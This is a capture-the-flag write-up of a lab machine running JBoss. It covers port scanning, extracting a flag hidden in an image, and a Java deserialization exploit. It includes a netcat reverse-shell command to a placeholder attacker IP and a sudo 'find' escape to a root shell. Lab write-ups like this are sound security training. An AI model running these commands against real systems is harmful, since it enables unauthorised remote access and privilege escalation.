 # Tony the Tiger

##### Difficulty: [ Easy ]

**Tags:** `Linux`,  `nmap`,  `steganography`,  `Jboss`,  `Java deserialization`,  `find`

---

##### Written: 15/12/2021

##### IP address: 10.10.104.15

*The prompts for this room has been rewritten in this write-up for simplicity sake.*

---

### [ Reconnaissance ]

Let's start things off with a basic **nmap** scan (top 1000 ports) on the target machine.

```
sudo nmap -sC -sV -vv -T4 10.10.104.15
```

**Results:**

```
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 61 OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:97:8c:b9:74:d0:f3:9e:fe:f3:a5:ea:f8:a9:b5:7a (DSA)
| ssh-dss
[REDACTED]
|   2048 33:a4:7b:91:38:58:50:30:89:2d:e4:57:bb:07:bb:2f (RSA)
| ssh-rsa 
[REDACTED]
|   256 21:01:8b:37:f5:1e:2b:c5:57:f1:b0:42:b7:32:ab:ea (ECDSA)
| ecdsa-sha2-nistp256 
[REDACTED]
|   256 f6:36:07:3c:3b:3d:71:30:c4:cd:2a:13:00:b5:25:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDUpCopvQzPXtEJ8L/lxYpJzOrcLLkU67fx71+Izsx6U
80/tcp   open  http        syn-ack ttl 61 Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Hugo 0.66.0
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack ttl 61 Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1098/tcp open  java-rmi    syn-ack ttl 61 Java RMI
1099/tcp open  java-object syn-ack ttl 61 Java Object Serialization
| fingerprint-strings: 
[REDACTED]
4446/tcp open  java-object syn-ack ttl 61 Java Object Serialization
5500/tcp open  hotline?    syn-ack ttl 61
| fingerprint-strings: 
[REDACTED]
8009/tcp open  ajp13       syn-ack ttl 61 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open  http        syn-ack ttl 61 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods: 
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack ttl 61 JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
```

There are quite a number of ports open, but the ones I'm especially interested in are port **22** (SSH), port **80** (HTTP) and port **8080** (HTTP).

The HTTP web server on port **80** contains a blog page:

<img style="float: left;" src="screenshots/screenshot1.png">

<br>

The HTTP web server on port **8080** contains a **JBoss** application server.

<img style="float: left;" src="screenshots/screenshot6.png">

*JBoss application server is an open-source platform, developed by Red Hat, used for implementing Java applications and a wide variety of other software applications.* 

Since the room is all about **Java serialization**, this JBoss server will probably be quite important later on.

---

### [ Find Tony's Flag! ]

Let's focus on Tony's blog first.

The first thing I did was to look for any low-hanging fruit, such as looking at the source code of the page for comments and checking the robots.txt file. There was nothing of interest there.

Next, if we look at the post titled '**My First Post**', we find something interesting:

<img style="float: left;" src="screenshots/screenshot2.png">

Looks like there might be embedded data within the images on the site. Looking around, I managed to find **2** images. I downloaded them onto my machine and tried to see if I could extract any data from them.

In the end, the image that had embedded data was this:

<img style="float: left;" src="screenshots/screenshot3.png">

All I had to do was run `strings` on it and we get Tony's flag within the output:

<img style="float: left;" src="screenshots/screenshot4.png">

---

### [ Exploit! ]

The room tells us to download a zip file which contains the following resources:

<img style="float: left;" src="screenshots/screenshot5.png">

**exploit.py** uses the **ysoserial.jar** file in the file to launch a **remote code execution** attack. It abuses a Java deserialization vulnerability that exists for certain versions of JBoss.

<br>

**Explanation of vulnerability:**

*It was found that the Apache commons-collections library permitted code execution when deserializing objects involving a specially constructed chain of classes. A remote attacker could use this flaw to execute arbitrary code with the permissions of the application using the commons-collections library.*

https://www.rapid7.com/db/vulnerabilities/http-jboss-cve-2015-7501/

<br>

We can use this exploit to launch a reverse shell on the target machine.

```
python2 exploit.py 10.10.104.15:8080 'nc -e /bin/sh ATTACKER_IP 4444'
```

With a netcat listener up and running, I ran the command above:

<img style="float: left;" src="screenshots/screenshot7.png">

And we're in!

---

### [ Find User JBoss' flag! ]

Looking around the machine, I find out that there are **3** users:

<img style="float: left;" src="screenshots/screenshot8.png">

Visiting **jboss'** home directory, there is a hidden text file called **.jboss.txt**:

<img style="float: left;" src="screenshots/screenshot11.png">

This file contains the JBoss flag:

<img style="float: left;" src="screenshots/screenshot12.png">

---

### [ Escalation! ]

There is also another text file called **note**:

<img style="float: left;" src="screenshots/screenshot9.png">

Nice, we have jboss' password! Let's log into his account via SSH:

<img style="float: left;" src="screenshots/screenshot10.png">

If we look at jboss' **sudo privileges**:

<img style="float: left;" src="screenshots/screenshot13.png">

We see that jboss can run the `find` command as **root**!

<br>

**GTFOBins** (https://gtfobins.github.io/gtfobins/find/) provides the following method to exploit this:

<img style="float: left;" src="screenshots/screenshot14.png">

All we have to do is run the following command:

```
sudo find . -exec /bin/sh \; -quit
```

<img style="float: left;" src="screenshots/screenshot15.png">

And just like that, we've opened a root shell.

The root flag can then be found in **/root**:

<img style="float: left;" src="screenshots/screenshot16.png">

It's **base64-encoded**, so let's decode it:

<img style="float: left;" src="screenshots/screenshot17.png">

We get what seems to be a **MD5 hash**. We can try cracking it using my go-to online hash cracker: https://hashes.com/en/decrypt/hash

<img style="float: left;" src="screenshots/screenshot18.png">

And we got the root flag!
